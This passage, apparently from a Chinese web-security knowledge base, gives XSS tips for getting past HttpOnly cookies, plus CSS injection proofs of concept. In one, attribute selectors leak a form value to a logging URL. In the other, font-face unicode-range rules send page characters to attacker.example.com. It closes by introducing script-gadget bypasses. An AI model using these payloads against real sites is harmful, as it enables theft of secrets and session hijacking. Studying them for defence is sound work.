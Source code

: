 ### 9. 技巧
#### 1. httponly
- 在cookie为httponly的情况下，可以通过xss直接在源站完成操作，不直接获取cookie。
- 在有登录操作的情况下，部分站点直接发送登录请求可能会带有cookie
- 部分特定版本的浏览器可能会在httponly支持/处理上存在问题
- 低版本浏览器支持 TRACE / TRACK，可获取敏感的header字段
- phpinfo 等页面可能会回显信息，这些信息中包含http头
- 通过xss劫持页面钓鱼
- 通过xss伪造oauth等授权请求，远程登录

#### 2. css注入
##### 1. 基本介绍
CSS注入最早开始于利用CSS中的 `expression()` `url()` `regex()` 等函数或特性来引入外部的恶意代码，但是随着浏览器的发展，这种方式被逐渐禁用，与此同时，出现了一些新的攻击方式。

##### 2. CSS selectors
```html
<style>
    #form2 input[value^='a'] { background-image: url(http://localhost/log.php/a); }
    #form2 input[value^='b'] { background-image: url(http://localhost/log.php/b); }
    #form2 input[value^='c'] { background-image: url(http://localhost/log.php/c); }
    [...]
</style>
<form action="http://example.com" id="form2">
    <input type="text" id="secret" name="secret" value="abc">
</form>
```
上图是利用CSS selectors完成攻击的一个示例

#####  3. Abusing Unicode Range
当可以插入CSS的时候，可以使用 `font-face` 配合 `unicode-range` 获取目标网页对应字符集。PoC如下
```html
<style>
@font-face{
 font-family:poc;
 src: url(http://attacker.example.com/?A); /* fetched */
 unicode-range:U+0041;
}
@font-face{
 font-family:poc;
 src: url(http://attacker.example.com/?B); /* fetched too */
 unicode-range:U+0042;
}
@font-face{
 font-family:poc;
 src: url(http://attacker.example.com/?C); /* not fetched */
 unicode-range:U+0043;
}
#sensitive-information{
 font-family:poc;
}
</style>
<p id="sensitive-information">AB</p>
```
当字符较多时，则可以结合 `::first-line` 等CSS属性缩小范围，以获取更精确的内容
#### 3. Bypass Via Script Gadgets
##### 1. 简介
一些网站会使用白名单或者一些基于DOM的防御方式，对这些方式，有一种被称为 `Code Reuse` 的攻击方式可以绕过。该方式和二进制攻防中的Gadget相似，使用目标中的合法代码来达到绕过防御措施的目的。在论文 `Code-Reuse Attacks for the Web: Breaking Cross-Site Scripting Mitigations via Script Gadgets` 中有该方法的具体描述。
